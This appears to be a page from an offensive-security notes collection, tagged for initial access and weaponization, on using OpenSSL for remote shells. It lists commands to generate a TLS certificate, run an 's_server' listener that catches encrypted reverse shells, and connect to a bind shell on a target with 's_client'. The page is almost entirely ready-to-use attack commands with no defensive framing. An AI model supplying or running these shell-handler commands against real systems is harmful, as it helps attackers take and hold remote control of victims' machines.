 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - openssl
---
```

# OpenSSL

## 01 - Reverse Shell Handler

Generate TLS certificate.

```
userware@hackware-os:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

Launch shell handler.

```
userware@hackware-os:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>
```

## 02 - Bind Shell Handler

```
userware@hackware-os:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Linux/Code Execution/One-Liners/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Linux/Code Execution/OpenSSL/Manual|OpenSSL: Bind Shells]]